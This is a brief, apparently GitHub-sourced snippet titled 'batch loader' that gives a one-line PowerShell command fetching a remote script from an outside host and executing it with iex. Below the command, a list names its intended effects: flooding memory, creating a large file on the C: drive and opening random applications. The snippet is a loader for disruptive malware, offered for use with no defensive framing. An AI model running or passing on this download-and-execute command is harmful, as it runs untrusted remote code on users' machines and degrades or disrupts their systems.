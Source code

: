 batch loader
----------------------------------
# b1 loader 
```bat
powershell -Command "iex '& { $(iwr -useb \"https://ps1.references.gg/test.ps1\") }'"
```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
